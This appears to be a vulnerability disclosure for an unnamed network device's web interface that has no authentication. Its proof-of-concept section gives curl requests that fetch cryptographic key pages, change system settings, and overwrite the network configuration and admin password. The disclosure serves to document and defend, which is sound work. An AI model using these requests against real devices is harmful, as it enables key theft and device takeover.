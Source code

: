 ### Affected Components:
- **Access Control:** Direct access to sensitive administrative endpoints without authentication  
- **Configuration Settings:** Network and system settings are modifiable without authentication  
- **Firmware Update:** Unauthorized firmware uploads enable persistent compromise  

---

## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)

### 1. **Exploit: Access Cryptographic Keys**
An attacker can access sensitive cryptographic keys using the following unauthenticated `GET` request:

```bash
curl '{target}/crypto/keypage.htm'
```
Or:

```bash
curl '{target}/crypto/savefile.cgi'
```

### 2. **Exploit: Modify System Settings**

Attackers can modify system settings without authentication using the following POST request:

```bash
curl '{target}/system_setup.htm' -X POST --data-raw 'Loc=Druento+%28TOshiky%29&Tizo=2&Leti=1&Gnss=0'
```

#### Example response:

```
HTTP/1.1 200 OK  
Settings updated successfully!
```

### 3. **Exploit: Modify TCP/IP Configuration**

Attackers can modify network configuration (e.g., hostname, IP address, DNS settings, password) using:

```bash
curl '{target}/protect/config.htm' -X POST --data-raw 'host=ELTS100&ip=192.168.10.30&gw=192.168.10.254&sub=255.255.255.0&dns1=8.8.8.8&npw=New_password&cnpw=New_password&encp=1'
```
